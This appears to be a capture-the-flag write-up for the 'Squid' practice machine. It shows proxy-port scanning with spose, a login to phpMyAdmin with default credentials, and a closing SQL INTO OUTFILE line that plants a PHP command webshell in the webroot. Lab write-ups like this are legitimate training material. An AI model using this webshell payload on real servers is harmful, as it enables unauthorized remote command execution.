 # Squid

## Introduction

Squid is a 'warm up' category Windows box hosted by offsec proving grounds.  

## Enumeration

### Nmap

Nmap network scan.

`3128/tcp open  http-proxy syn-ack ttl 125 Squid http proxy 4.14`  

### Squid proxy

Using the following script to scan services behind squid proxy.  

`https://github.com/aancw/spose`

`python spose.py --proxy http://<ip>:3128 --target <ip>`


Ports open behind the proxy.  

```
3306
8080
```

## Root

After setting up a browser proxy with foxy proxy, I pointed the url to 8080.  

In phpinfo.php, there is the application webroot 'c:/wamp/www'.  

Logging in to phpmyadmin with default username 'root' and no password, it allows me to execute sql queries.  

The following allowed a webshell as ntauthority/system.  

`SELECT "<?php system($_REQUEST['cmd']);?>" INTO outfile 'c:/wamp/www/shell.php'`
